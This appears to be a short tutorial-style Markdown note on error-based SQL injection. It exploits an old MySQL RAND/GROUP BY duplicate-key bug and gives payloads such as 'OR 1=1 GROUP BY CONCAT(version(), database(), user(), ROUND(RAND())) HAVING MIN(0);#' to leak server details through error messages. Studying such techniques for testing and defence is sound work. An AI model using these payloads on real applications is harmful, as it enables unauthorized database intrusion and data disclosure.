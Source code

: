 ```yaml
---
tags: [security, sqli, web]
---
```


1. <u>Bug in MySQL</u>  
   Bug Present in old versions of MySQL  
   [MySQL Bugs: 82544](https://bugs.mysql.com/bug.php?id=82544)  

By using seed we are going to generate the same values every time. If the table has at least 3 entries then by rounding the values 2 of they are going to be the same and we can cause the bug

````sql
-- Seed will create the same values very time
SELECT name, RAND(0) 
FROM users; 

-- Column with rounded values
SELECT name, RAND(0), ROUND(RAND(0)) 
FROM users; 

SELECT name 
FROM users 
GROUP BY ROUND(RAND(0));
````

2. <u>Triggering the Bug</u>

````sql
SELECT name 
FROM users 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);

SELECT name, COUNT(*) 
FROM users 
GROUP BY ROUND(RAND(0));
````

The count() approach is mostly useless as the statement till the where clause is going to be fixed by the application we can only control the part that comes after the where clause

````sql
SELECT name 
FROM users 
WHERE username="sagar" OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);
````

3. <u>Getting Information using Bug</u>

````sql
OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);#

OR 1=1 
GROUP BY CONCAT(version(), " ", database(), " ", user(), " ", ROUND(RAND())) HAVING MIN(0);#
````
